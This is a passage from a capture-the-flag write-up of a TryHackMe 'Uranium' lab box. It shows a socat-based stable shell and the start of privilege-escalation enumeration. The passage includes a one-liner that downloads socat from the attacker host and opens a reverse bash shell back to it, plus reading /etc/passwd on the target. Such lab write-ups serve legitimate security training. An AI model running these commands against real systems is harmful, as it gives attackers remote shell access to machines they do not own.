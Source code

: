 I'm user `hakanbey`!

**Stable shell via `socat`:**
```shell
┌[siunam♥earth]-(/opt/static-binaries/binaries/linux/x86_64)-[2023.02.17|15:31:42(HKT)]-[git://master ✗]
└> python3 -m http.server 8000
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
```

```shell
┌[siunam♥earth]-(~/ctf/thm/ctf/Uranium-CTF)-[2023.02.17|15:31:27(HKT)]
└> socat -d -d file:`tty`,raw,echo=0 TCP-LISTEN:4444
2023/02/17 15:32:28 socat[30122] N opening character device "/dev/pts/2" for reading and writing
2023/02/17 15:32:28 socat[30122] N listening on AF=2 0.0.0.0:4444
```

```shell
hakanbey@uranium:~$ wget http://10.8.70.81:8000/socat -O /tmp/socat;chmod +x /tmp/socat;/tmp/socat TCP:10.8.70.81:4444 EXEC:'/bin/bash',pty,stderr,setsid,sigint,sane
```

```shell
┌[siunam♥earth]-(~/ctf/thm/ctf/Uranium-CTF)-[2023.02.17|15:31:27(HKT)]
└> socat -d -d file:`tty`,raw,echo=0 TCP-LISTEN:4444
2023/02/17 15:32:28 socat[30122] N opening character device "/dev/pts/2" for reading and writing
2023/02/17 15:32:28 socat[30122] N listening on AF=2 0.0.0.0:4444
                                                                 2023/02/17 15:32:55 socat[30122] N accepting connection from AF=2 10.10.180.31:40346 on AF=2 10.8.70.81:4444
                                                                  2023/02/17 15:32:55 socat[30122] N starting data transfer loop with FDs [5,5] and [7,7]
                                              hakanbey@uranium:~$ 
hakanbey@uranium:~$ export TERM=xterm-256color
hakanbey@uranium:~$ stty rows 22 columns 107
hakanbey@uranium:~$ ^C
hakanbey@uranium:~$ 
```

**user1.txt:**
```shell
hakanbey@uranium:~$ cat /home/hakanbey/user_1.txt
thm{Redacted}
```

## Privilege Escalation

### hakanbey to kral4

Let's do some basic enumerations!

**System users:**
```shell
hakanbey@uranium:~$ cat /etc/passwd | grep '/bin/bash'
root:x:0:0:root:/root:/bin/bash
hakanbey:x:1000:1000:hakanbey:/home/hakanbey:/bin/bash
kral4:x:1001:1001:,,,:/home/kral4:/bin/bash
web:x:1002:1002:,,,:/home/web:/bin/bash
```

